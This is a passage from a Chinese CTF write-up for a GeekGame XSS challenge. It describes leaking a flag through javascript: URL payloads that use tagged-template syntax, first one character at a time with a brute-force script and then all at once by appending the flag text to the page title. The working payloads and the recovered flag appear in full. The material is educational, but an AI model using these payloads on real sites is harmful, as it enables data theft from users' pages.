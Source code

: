 运行效果如下：

```sh
[+] Opening connection to prob06.geekgame.pku.edu.cn on port 10006: Done
[*] javascript:document['getElementsByClassName']`flag`[0]['innerText'][1]['endsWith']`l`?document['getElementsByTagName']`title`[0]['remove']``:0//
[*] Closed connection to prob06.geekgame.pku.edu.cn port 10006
[+] flag[1] is l
```

再写个暴力破解脚本, 用于手试试不出来的情形：（重复代码已省略）

```js
from itertools import chain
chars = [chr(x) for x in chain(range(ord('A'), ord('Z') + 1),
         range(ord('a'), ord('z') + 1), range(ord('0'), ord('9') + 1))]
i = int(argv[1])
total = len(chars)
for ch in sorted(chars):
    info(f"Progress: {cnt}/{total}")
    if test(i, ch):
        break
    # info("Sleep for 2 seconds")
    # sleep(2)
    cnt += 1
else:
    warn("All attempts failed!")
```

最后花一晚上时间就能把 flag 读出来辣：

```
flag{chEck-this-out-If-yoU-have-not:crbug.Com/31661}
0000000000111111111122222222223333333333444444444455
0123456789012345678901234567890123456789012345678901
```

然而我在第二天找到了更简单的做法：

`<title>` 元素有个  `append` 方法，我没注意到它能直接接受多个参数。

于是这样就可以了：

```js
javascript:document['getElementsByTagName']`title`[0]['append']`${document['getElementsByClassName']`flag`[0]['innerText']}`//
```

![image-20221123114933898](assets/image-20221123114933898.png)
